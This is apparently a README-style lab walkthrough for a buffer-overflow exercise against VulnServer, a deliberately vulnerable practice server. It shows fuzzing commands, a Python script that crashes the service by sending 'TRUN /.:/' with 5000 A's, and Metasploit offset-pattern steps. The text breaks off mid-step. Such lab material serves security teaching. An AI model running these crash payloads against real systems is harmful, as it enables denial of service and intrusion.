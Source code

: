 # VulnServer 

We Need Two Virtual Machines Windows 10 , Kali . Download VulnServer [Here](https://thegreycorner.com/vulnserver.html)

In the Windows VM open Cmd go to `vulnserver` directory < Run `vulnserver.exe`.

In the Kali , write this command below < HELP
```sh
nc -nv 192.168.242.130 9999
```
Now we have to Find a Crash we do that by Fuzzing , we write a code in `test.spk`.

![alt text](testspk.png)

run the vulnserver < write a command in kali 

```sh
generic_send_tcp <windows vm ip> 9999 test.spk 0 0
```
We then Notice that it crashes after a bunch of inputs 

![alt text](spkcrash.png)

Now that we got a Crash , Its time to Analyse the Crash for that we use Immunity Debugger [Download](https://www.immunityinc.com/products/debugger/)

Open the Vulnserver.exe in Immunity Debugger.

To Recreate the Crash we write a Python Script : `exploit3.py`
We input 5000 A's so that it crashes the vulnserver

```python
#!/usr/bin/python
import os 
import sys 
import socket


host = "192.168.242.130"
port = 9999
buffer = "A" * 5000
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print ("sending exploit3")
s.send("TRUN /.:/" + buffer)
print s.recv(1024)
s.close()
```
Close your CMD in Windows and Open the Vulnserver.exe file in the Immunity Debugger.
When it loads up Press the Play button 

Then Go to your Kali Terminal and type this command below 
```sh
python2 exploit3.py
```
After running Press Ctrl + C 

Now Check your Immunity Debugger , You will see crash has happened like this 

![alt text](exp3_immunity.png)

We need to Identify Offset write command below in kali
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```
Input the pattern exactly as given in `exploit4.py` file.

Restart the Immunity Debugger by pressing `<<` this button and play it again.

Run your python file similar as you did for exploit3.py.Now again press Ctrl + C and check for crash in your Immunity debugger.

you will see 


